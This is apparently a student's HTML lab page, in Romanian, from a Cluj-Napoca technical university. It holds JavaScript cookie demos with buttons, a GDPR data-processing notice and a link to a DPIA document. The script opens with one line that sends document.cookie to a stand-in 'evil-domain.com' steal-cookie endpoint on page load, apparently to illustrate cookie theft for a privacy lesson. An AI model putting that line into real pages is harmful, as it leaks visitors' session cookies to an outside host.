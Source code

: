 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>

<p>
  Universitatea Tehnică Cluj-Napoca, cu sediul in Cluj-Napoca, pe Strada Memorandumului 28, 400114, reprezentată legal prin Rector, Prof. univ. dr. ing. Vasile ŢOPA vă prelucrează datele cu caracter personal.
În art. 4 pct. 1 din Regulamentul nr. 679/2016 se găsește definiția datelor cu caracter personal care stipulează orice informații privind o persoană fizică identificată sau identificabilă („persoana vizată”); o persoană fizică identificabilă este o persoană care poate fi identificată, direct sau indirect, în special prin referire la un anumit element de identificare, cum ar fi: 
-	nume, prenume;
-	CNP;
-	Adresă;
-	E-mail;
-	IBAN;
-	Adeverință medicală.
Vă informăm că datorită temeiului legal aplicabil în România și a relației contractuale în care vă aflați cu Universitatea Tehnică din Cluj-Napoca, aceasta procesează pe perioada relațiilor contractuale următoarele categorii de informații personale care vă aparțin: date de identificare (certificat de naștere, carte de identitate, etc.); date financiare (număr de cont, venituri realizate la nivelul instituției, situații financiare personale, etc.); caracteristici personale (vârsta, locul nașterii, naționalitate, stare civilă, etc.) necesare pentru stabilirea de drepturi cuvenite;  opinii privind starea de sănătate, componența familiei (numărul de copii și date de identificare a acestora, stare civilă, etc. în baza cărora se fac justificările de calcul a unor drepturi cuvenite sau se stabilesc alte drepturi conform legilor și normativelor aplicabile pentru cei care optează sau solicită aceste drepturi); informații privind parcursul academic, calificările deținute, istoricul profesional, calitatea de membru în organizații profesionale, publicații, date de contact necesare pentru derularea curentă a activității educaționale și de cercetare specifice universității.
Menționăm ca reținerea datelor cu caracter personal în instituție are rolul de a putea furniza către titularul datelor, la cerere, informații privind perioada de școlarizare petrecută în cadrul instituției și după finalizarea acestei perioade de instruire și se supune suplimentar temeiului legal aplicabil în România furnizat de OM Nr. 657 / 24.11.2014 privind regimul actelor de studii în sistemul de învățământ superior cu completările ulterioare.
Datele deținute la nivelul sistemelor informatice din Universitatea Tehnică din Cluj-Napoca nu sunt comunicate unor terțe părți decât în cazul în care există solicitări venite conform unui temei legal furnizat de instituții ale statului român sau pentru îndeplinirea obligațiilor contractuale dintre dumneavoastră ca student / cursant și Universitatea Tehnică din Cluj-Napoca ca furnizor de servicii educaționale.
Conform Regulamentului UE nr. 679/2016 persoanele vizate beneficiază de următoarele drepturi:
•	dreptul de acces cu titlul gratuit la datele personale prelucrate de universitate;
•	dreptul la rectificare şi dreptul la ştergerea datelor – fără a contraveni obligaţiilor legale ale universităţii;
•	dreptul de restricţionare a prelucrării datelor – fără a contraveni obligaţiilor legale ale universităţii;
•	dreptul la portabilitatea datelor;
•	dreptul de a retrage oricând consimţământul în cazul în care prelucrarea se bazează pe consimţământ;
Perioada de stocare şi prelucrare a datelor cu caracter personal este determinată de prevederile legale în vigoare. La sfârşitul perioadei de stocare şi prelucrare a datelor cu caracter personal, conform raporturilor juridice sau scopurilor precizate în declarațiile de consimțământ completate de persoanele vizate, datele cu caracter personal vor fi şterse din procesele curente şi vor fi arhivate conform legislaţiei naţionale.
		    În cazul mobilității la o universitate din UK, instituția de primire trebuie să elibereze studentului foaia matricolă e confirmă parcurgerea programului de studii precum și rezultatele acestuia. Totodată, instituția de trimitere trebuie să acorde recunoaștere academică tuturor activităților finalizate în timpul mobilității conform contractului de studiu, prin acordarea creditelor transferabile sau a unui sistem echivalent.
		    Datorită faptului că perioada de mobilitate va fi inclusă și în suplimentul de diplomă, Universitatea Tehnică va avea dreptul să acceseze informațiile despre student din perioada mobilității.   
  
  </p>
  
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/negru_va_denisa_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B2E948193-BC37-4C82-A87C-E6A6A4840894%7D&file=Task2.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1622837745557&ct=1622837745557&wdPreviousSession=e200e115-397c-43f1-b585-e3eb3aa0a9c9&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD&cid=ae19853d-df19-4274-98ca-907ebdf4f284">Click to see DPIA </a>
